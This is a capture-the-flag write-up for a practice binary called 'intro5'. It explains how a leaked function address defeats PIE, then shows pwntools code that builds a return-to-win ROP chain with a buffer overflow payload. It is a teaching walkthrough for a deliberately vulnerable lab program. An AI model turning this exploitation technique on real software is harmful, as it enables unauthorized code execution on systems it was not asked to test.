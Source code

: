 # Intro 5

Okay. intro5 is the same as intro4 but the big change is now PIE is enabled.
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```



PIE being enabled means the address for the win function changes everytime it is run so we will need a leak. 

![](pics/1.png)


The main function is using "printf" along with %p and passing "win" so it is giving us the address of win at the start of the program.

![](pics/2.png)

We can confirm this is the address of win using GDB

Running the binary with GDB and taking the address that is leaked shows this:

![](pics/3.png)

Okay. So the address leaked is win. 

We still need the base address of the binary in order to find the ret address needed.

```
❯ objdump -D pwnme|grep win
000000000000122e <win>:
    1244:	74 0e                	je     1254 <win+0x26>
    1252:	eb 0c                	jmp    1260 <win+0x32>
    1294:	48 8d 35 93 ff ff ff 	lea    -0x6d(%rip),%rsi        # 122e <win>
```

So the offset for win is 0x122e so the base address is "win - 0x122e"

I used the following bit of code to get the leak from the binary and calculate the base address

```
win = io.recvline().split()[5].strip()
win = int(win,16)
base_addr = win - 0x122e
```

I can now update the base address using
```
elf.address = base_addr
```

and use the same method as before to call win and pass 0xdeadbeef

```
payload = b'A' * OFFSET
rop.raw(rop.ret)
rop.win()
rop.win(0xdeadbeefdeadbeef)
payload += rop.chain()

io.sendline(payload)
```

![](pics/4.png)

